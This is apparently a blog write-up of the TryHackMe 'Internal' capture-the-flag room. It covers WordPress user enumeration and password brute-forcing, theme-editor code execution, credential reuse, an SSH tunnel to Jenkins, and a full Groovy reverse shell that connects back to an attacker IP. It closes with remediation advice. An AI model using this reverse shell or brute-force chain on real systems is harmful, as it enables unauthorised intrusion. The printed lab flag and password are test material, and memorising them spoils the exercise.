# Internal — TryHackMe

<p align="left">
  
</p>

| | |
|---|---|
| **Platform** | TryHackMe |
| **Difficulty** | Hard |
| **OS** | Linux |
| **Key techniques** | vhost/subdomain discovery, WordPress user enum + `wpscan` brute-force, theme editor → RCE, credential-chained lateral movement, SSH pivot to Jenkins on `localhost:8080`, Jenkins Script Console → Docker root |

---

## TL;DR

Internal is a "black-box" style TryHackMe room — no creds given,
scope is one IP + `internal.thm`. Full compromise chain:

1. **Recon:** port 80 hosts a plain page; `/blog` is WordPress and
   `/phpmyadmin` is exposed.
2. **WordPress:** `wpscan --enumerate u` pulls the `admin` user;
   `wpscan --passwords rockyou.txt` cracks it.
3. **Foothold:** log in to `wp-admin`, edit the theme's `404.php`
   with a PHP reverse shell — I get a shell as `www-data`.
4. **Loot:** a `wp-save.txt` note under `/opt` gives me
   `aubreanna:<password>` for SSH. That's user.txt.
5. **Pivot:** `/home/aubreanna/jenkins.txt` mentions Jenkins on
   `localhost:8080`. SSH port-forward brings it to my Kali.
6. **Root:** brute a weak Jenkins password from `rockyou`, drop into
   the Script Console, and run a Groovy reverse shell. That shell
   lands inside a Docker container as **root**, where root.txt lives.

---

## Recon

```bash
sudo nmap -sC -sV -p- -T4 10.10.253.5
```



Open: **22 (SSH), 80 (Apache)**. Add `internal.thm` to `/etc/hosts`
and enumerate the web root:

```bash
gobuster dir -u http://internal.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```




Two interesting paths:

- `/phpmyadmin/` — admin panel, needs creds.
- `/blog/` — WordPress.





---

## WordPress — enumerate then brute

```bash
wpscan --url http://internal.thm/blog/ --enumerate u
```




Login page is at `/blog/wp-admin/`. Password-brute the `admin` user
with `wpscan` + rockyou:

```bash
wpscan --url http://internal.thm/blog/ -U admin -P /usr/share/wordlists/rockyou.txt
```




---

## Foothold — theme editor RCE as `www-data`

Any WordPress admin can edit theme files under
**Appearance → Theme Editor**. I overwrote the current theme's
`404.php` with a PHP reverse shell (Pentestmonkey's default, IP + port
edited):


Then visiting any non-existent path triggers it:

```bash
nc -lvnp 4455
curl http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php
```


`wp-config.php` gives the DB creds, which log me back into phpMyAdmin:






Nothing new for privesc — but the DB tour is a good reflex on a
WordPress box; sometimes the `wp_users` table holds a hash for a
Windows/AD user reused elsewhere.

---

## Lateral movement — `wp-save.txt` → `aubreanna`

Inside the shell, a stray `wp-save.txt` under `/opt/` (or
`/tmp/wp-save.txt`, depending on the release) contains a hand-off
note left by the sysadmin:




SSH straight in:

```bash
ssh aubreanna@internal.thm
```


`user.txt` is in her home:


`linpeas` doesn't turn up an obvious SUID/sudo path:


But `/home/aubreanna/jenkins.txt` is a lead — the sysadmin noted a
Jenkins service is running **only on `localhost:8080`**:



Confirm the bind:

```bash
ss -tlnp | grep 8080     # bound on 127.0.0.1:8080
netstat -antp
```



---

## Pivot — SSH tunnel to Jenkins

Forward `127.0.0.1:8080` on the target to my Kali:

```bash
ssh -L 8080:127.0.0.1:8080 aubreanna@internal.thm
```




Same rockyou brute-force pattern with Hydra / a small Python wrapper
(Jenkins responds with a distinctive redirect on failure):




---

## Root — Jenkins Script Console

Once inside Jenkins, **Manage Jenkins → Script Console** runs Groovy
as the Jenkins JVM user — which on this box is `root` inside a
Docker container.

```groovy
String host = "10.21.174.19";
int port = 4455;
String cmd = "/bin/sh";
Process p = new ProcessBuilder(cmd).redirectErrorStream(true).start();
Socket s = new Socket(host, port);
InputStream pi = p.getInputStream(),
             pe = p.getErrorStream(),
             si = s.getInputStream();
OutputStream po = p.getOutputStream(),
              so = s.getOutputStream();
while (!s.isClosed()) {
    while (pi.available() > 0) so.write(pi.read());
    while (pe.available() > 0) so.write(pe.read());
    while (si.available() > 0) po.write(si.read());
    so.flush(); po.flush();
    Thread.sleep(50);
    try { p.exitValue(); break; } catch (Exception e) {}
}
p.destroy(); s.close();
```



Listener catches a `jenkins` shell — inside a container:


`/opt/note.txt` in the container contains the root password. `su -`
in the container:

```
cat /opt/note.txt
root:tr0ub13guM!@#123
su -
```


`root.txt`:

```
THM{d0ck3r_d3str0y3r}
```

---

## Lessons Learned

- **Black-box scope means enumerate every path twice.** `phpMyAdmin`
  looked useless without creds until WordPress leaked them — always
  come back to the ones you skipped.
- **WordPress user enum is free.** `?author=1`, `/wp-json/wp/v2/users`,
  or `wpscan --enumerate u` — one of them always works. If the admin
  username is exposed, treat the login as effectively half-cracked.
- **Theme Editor RCE is the classic WP admin → shell.** Any file
  under `wp-content/themes/<active>/` that the site renders
  (`404.php`, `header.php`, `footer.php`) can host the payload;
  `404.php` is the least noisy because you don't have to break the
  live layout.
- **A service bound to `localhost` is not "hidden" — it's one port
  forward away.** `ssh -L`, `chisel`, `ligolo-ng` — pick one, it's
  the same primitive.
- **Jenkins Script Console = auth'd RCE.** If you can log in, you
  are the Jenkins user. If Jenkins is in a container, that user is
  usually `root` inside it — with an escape path more often than
  people expect.

---

## Remediation

- **Do not expose phpMyAdmin** on Internet-facing hosts. If you must,
  bind it to `127.0.0.1` and access it through a proxy, and put an
  extra HTTP-basic layer in front.
- **Rate-limit `wp-login.php`** and enforce 2FA for administrators.
  A single brute-forceable `admin` account cost this box.
- **Disable file editing in WordPress:** set
  `define('DISALLOW_FILE_EDIT', true);` in `wp-config.php`. The
  Theme Editor is convenient — and a foothold every time.
- **Do not leave plaintext credential notes on the filesystem.**
  `wp-save.txt` and `jenkins.txt` gave up the whole box. Use a
  password manager or Vault.
- **Restrict Jenkins Script Console** to a tiny admin group, and
  never run the Jenkins agent as root — even inside a container.

---

## Tools used

- `nmap`, `gobuster`
- `wpscan`
- Pentestmonkey PHP reverse shell
- `ssh -L` port-forwarding
- Hydra (Jenkins brute-force)
- Jenkins Script Console (Groovy)
- `nc`
---

**Live version:** [read this write-up on my blog](https://debasjan.github.io/writeups/internal/)
